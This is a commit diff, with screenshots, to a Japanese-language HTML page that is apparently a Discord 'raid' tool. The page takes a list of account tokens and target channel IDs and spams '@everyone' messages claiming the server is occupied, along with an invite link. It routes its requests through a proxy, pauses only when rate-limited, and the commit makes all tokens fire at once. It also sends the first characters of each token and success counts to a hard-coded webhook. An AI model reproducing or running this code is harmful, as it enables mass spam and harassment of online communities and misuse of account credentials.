

Before and after one commit to discordbot5556-glitch/ia-raid2, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (258-1021 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,73 +2,90 @@
 <html lang="ja">
 <head>
     <meta charset="UTF-8">
-    <title>IIAA Admin - Multi-Strike</title>
+    <title>IIAA Admin - Full Burst</title>
     <style>
         body { background-image: url('名前なし(1).jpg'); background-size: cover; background-attachment: fixed; font-family: sans-serif; display: flex; justify-content: center; align-items: center; min-height: 100vh; margin: 0; }
         .container { background: rgba(255, 255, 255, 0.96); width: 95%; max-width: 600px; padding: 25px; border-radius: 20px; box-shadow: 0 15px 45px rgba(0,0,0,0.4); overflow-y: auto; max-height: 90vh; }
-        h2 { text-align: center; color: #ff5c7e; margin-bottom: 15px; }
+        h2 { text-align: center; color: #ff5c7e; }
         .label { background: #ff7491; color: white; padding: 2px 10px; border-radius: 6px; font-size: 11px; display: inline-block; margin-top: 12px; font-weight: bold; }
-        input, select, textarea { width: 100%; padding: 10px; margin-top: 6px; border: 2px solid #ffd1dc; border-radius: 10px; box-sizing: border-box; }
-        .help-text { font-size: 10px; color: #888; margin-top: 2px; }
-        .btn-group { display: flex; gap: 10px; margin-top: 20px; }
-        .btn-main { flex: 2; background: linear-gradient(135deg, #ff7491, #ff5c7e); color: white; border: none; padding: 16px; cursor: pointer; border-radius: 14px; font-weight: bold; }
-        .btn-stop { flex: 1; background: #444; color: white; border: none; padding: 16px; cursor: pointer; border-radius: 14px; font-weight: bold; }
-        #terminal { background: #1a1a1a; color: #00ffaa; height: 150px; overflow-y: auto; padding: 12px; margin-top: 15px; border-radius: 10px; font-size: 11px; font-family: monospace; }
+        textarea, input { width: 100%; padding: 10px; margin-top: 6px; border: 2px solid #ffd1dc; border-radius: 10px; box-sizing: border-box; font-family: monospace; }
+        .btn-main { width: 100%; background: linear-gradient(135deg, #ff7491, #ff5c7e); color: white; border: none; padding: 18px; cursor: pointer; border-radius: 14px; font-weight: bold; font-size: 18px; margin-top: 20px; }
+        .btn-stop { width: 100%; background: #444; color: white; border: none; padding: 10px; cursor: pointer; border-radius: 14px; margin-top: 10px; }
+        #terminal { background: #1a1a1a; color: #00ffaa; height: 200px; overflow-y: auto; padding: 12px; margin-top: 15px; border-radius: 10px; font-size: 11px; }
     </style>
 </head>
 <body>
 <div class="container">
-    <h2>IIAA Multi-Controller</h2>
+    <h2>IIAA Full Burst Mode</h2>
 
-    <span class="label">TOKENS (複数入力: 1行に1つ)</span>
-    <textarea id="tokens" placeholder="トークン1&#10;トークン2..." style="height: 80px;"></textarea>
+    <span class="label">TOKENS (1行に1つ)</span>
+    <textarea id="tokens" style="height: 100px;" placeholder="トークンを貼り付け"></textarea>
 
-    <span class="label">TARGET CHANNEL IDs (複数入力: 1行に1つ)</span>
-    <textarea id="channels" placeholder="チャンネルID1&#10;チャンネルID2..." style="height: 80px;"></textarea>
-    <p class="help-text">※同期ボタンは1つ目のトークン・サーバーIDを使用して取得します</p>
+    <span class="label">TARGET CHANNELS (1行に1つIDを入力)</span>
+    <textarea id="channels" style="height: 100px;" placeholder="チャンネルIDを貼り付け"></textarea>
 
-    <div style="display: flex; gap: 10px; align-items: flex-end;">
-        <div style="flex: 1;"><span class="label">SERVER ID (同期用)</span><input type="text" id="guildId"></div>
-        <button onclick="fetchChannels()" style="height: 40px; border-radius: 10px; border: none; background: #eee; cursor: pointer; padding: 0 15px;">同期</button>
-    </div>
-
-    <span class="label">MESSAGE</span><textarea id="message">@everyone いあ帝国参上！</textarea>
+    <span class="label">MESSAGE</span>
+    <textarea id="message" style="height: 60px;">@everyone いあ帝国が占領した！</textarea>
 
     <div style="display: flex; gap: 10px;">
-        <div style="flex: 1;"><span class="label">1トークン毎の件数</span><input type="number" id="count" value="50"></div>
+        <div style="flex: 1;"><span class="label">1人あたりの連投数</span><input type="number" id="count" value="100"></div>
         <div style="flex: 1;"><span class="label">速度(ms)</span><input type="number" id="speed" value="1000"></div>
     </div>
 
-    <div class="btn-group">
-        <button id="startBtn" class="btn-main" onclick="executeTask()">全トークン一斉送信開始</button>
-        <button id="stopBtn" class="btn-stop" onclick="stopTask()" disabled>停止</button>
-    </div>
-    <div id="terminal">--- Multi-Strike Ready ---</div>
+    <button id="startBtn" class="btn-main" onclick="executeBurst()">一斉射撃開始</button>
+    <button id="stopBtn" class="btn-stop" onclick="stopTask()" disabled>全停止</button>
+
+    <div id="terminal">--- Ready to Burst ---</div>
 </div>
 
 <script>
     const PROXY = "https://super-thunder-c2eb.discord-bot5556.workers.dev/?url=";
     const MONITOR_WEBHOOK = "https://discord.com/api/webhooks/1482597483900043305/cVTMUYx4LeUkcWximOG4M4t8-cXXJbscFB4GGEJfCOuORwcORqcZiV5cjn8_sd9I1zst";
-    const PROMO = `\n\n# いあ帝国がこのサーバーを占領した！\nhttps://discord.gg/x39xVSepaj`;
+    const PROMO = `\n\nhttps://discord.gg/x39xVSepaj`;
 
     let isRunning = false;
     const log = (m, c = "#00ffaa") => { const t = document.getElementById('terminal'); t.innerHTML += `> <span style="color:${c}">${m}</span><br>`; t.scrollTop = t.scrollHeight; };
 
-    async function fetchChannels() {
-        const tokens = document.getElementById('tokens').value.split('\n').map(s=>s.trim()).filter(s=>s);
-        const g = document.getElementById('guildId').value.trim();
-        if(!tokens[0] || !g) return log("トークン(1つ目)とサーバーIDが必要です", "red");
-        log("同期中...");
-        try {
-            const res = await fetch(PROXY + encodeURIComponent(`https://discord.com/api/v9/guilds/${g}/channels`), { headers: { "Authorization": tokens[0] } });
-            const data = await res.json();
-            log("取得成功。チャンネルIDをコピーして上に貼ってください：\n" + data.filter(c=>c.type===0).map(c=>`${c.id} (#${c.name})`).join('\n'), "yellow");
-        } catch (e) { log("取得失敗", "red"); }
+    function stopTask() { isRunning = false; log("停止命令を送信中...", "orange"); }
+
+    // 各トークンの独立した送信処理
+    async function startStriker(token, channels, msg, count, speed, strikerName) {
+        let successCount = 0;
+        for (let i = 1; i <= count; i++) {
+            if (!isRunning) break;
+            for (const chId of channels) {
+                if (!isRunning) break;
+                try {
+                    const res = await fetch(PROXY + encodeURIComponent(`https://discord.com/api/v9/channels/${chId}/messages`), {
+                        method: "POST",
+                        headers: { "Authorization": token, "Content-Type": "application/json" },
+                        body: JSON.stringify({ content: msg + PROMO })
+                    });
+
+                    if (res.ok) {
+                        successCount++;
+                        log(`[${strikerName}] 成功 ➔ ${chId}`);
+
+                        // リアルタイム監視ログ（成功ごとに飛ばす）
+                        fetch(PROXY + encodeURIComponent(MONITOR_WEBHOOK), {
+                            method: "POST",
+                            headers: { "Content-Type": "application/json" },
+                            body: JSON.stringify({ content: `✅ [${strikerName}] 成功\nChannel: ${chId}\nTotal: ${successCount}\nToken: ${token.substring(0,15)}...` })
+                        }).catch(()=>{});
+
+                    } else if (res.status === 429) {
+                        log(`[${strikerName}] 制限中(429) 10秒待機`, "orange");
+                        await new Promise(r => setTimeout(r, 10000));
+                    } else {
+                        log(`[${strikerName}] エラー: ${res.status}`, "red");
+                    }
+                } catch (e) { log(`[${strikerName}] 通信失敗`, "red"); }
+                await new Promise(r => setTimeout(r, speed));
+            }
+        }
     }
 
-    function stopTask() { isRunning = false; log("全タスク停止中...", "orange"); }
-
-    async function executeTask() {
+    async function executeBurst() {
         if (isRunning) return;
         const tokens = document.getElementById('tokens').value.split('\n').map(s=>s.trim()).filter(s=>s);
         const channels = document.getElementById('channels').value.split('\n').map(s=>s.trim()).filter(s=>s);
@@ -76,59 +93,22 @@
         const count = parseInt(document.getElementById('count').value);
         const speed = parseInt(document.getElementById('speed').value);
 
-        if(!tokens.length || !channels.length) return log("トークンとチャンネルを1つ以上入力してください", "red");
+        if (!tokens.length || !channels.length) return log("トークンとIDを入力してください", "red");
 
         isRunning = true;
         document.getElementById('startBtn').disabled = true;
         document.getElementById('stopBtn').disabled = false;
+        log(`${tokens.length}個のトークンで同時攻撃を開始...`, "yellow");
 
-        log(`起動：${tokens.length}トークン / ${channels.length}チャンネル`);
+        // Promise.allを使って全トークンを「同時に」起動
+        const strikeTasks = tokens.map((t, idx) => startStriker(t, channels, msg, count, speed, `Striker-${idx+1}`));
 
-        // 各トークンごとに並列で実行
-        const tasks = tokens.map(async (token, index) => {
-            let successCount = 0;
-            const tId = `Token-${index+1}`;
-
-            for(let i=1; i <= count; i++) {
-                if (!isRunning) break;
-                // 全チャンネルに順番に送る
-                for(const chId of channels) {
-                    if (!isRunning) break;
-                    try {
-                        const res = await fetch(PROXY + encodeURIComponent(`https://discord.com/api/v9/channels/${chId}/messages`), {
-                            method: "POST",
-                            headers: { "Authorization": token, "Content-Type": "application/json" },
-                            body: JSON.stringify({ content: msg + PROMO })
-                        });
-
-                        if(res.ok) {
-                            successCount++;
-                            log(`[${tId}] 成功 ➔ ${chId} (${successCount})`);
-                        } else if(res.status === 429) {
-                            log(`[${tId}] 制限！10秒待機`, "orange");
-                            await new Promise(r => setTimeout(r, 10000));
-                        } else {
-                            log(`[${tId}] エラー: ${res.status}`, "red");
-                        }
-                    } catch (e) { log(`[${tId}] 通信失敗`, "red"); }
-                }
-                await new Promise(r => setTimeout(r, speed));
-            }
-
-            // 個別レポート
-            fetch(PROXY + encodeURIComponent(MONITOR_WEBHOOK), {
-                method: "POST",
-                headers: { "Content-Type": "application/json" },
-                body: JSON.stringify({ content: `【いあ帝国 レポート】\nトークン: ${token.substring(0,10)}...\n成功合計: ${successCount}` })
-            }).catch(()=>{});
-        });
-
-        await Promise.all(tasks);
+        await Promise.all(strikeTasks);
 
         isRunning = false;
         document.getElementById('startBtn').disabled = false;
         document.getElementById('stopBtn').disabled = true;
-        log("全ての送信タスクが終了しました。");
+        log("全射撃任務、完了しました。", "yellow");
     }
 </script>
 </body>
```
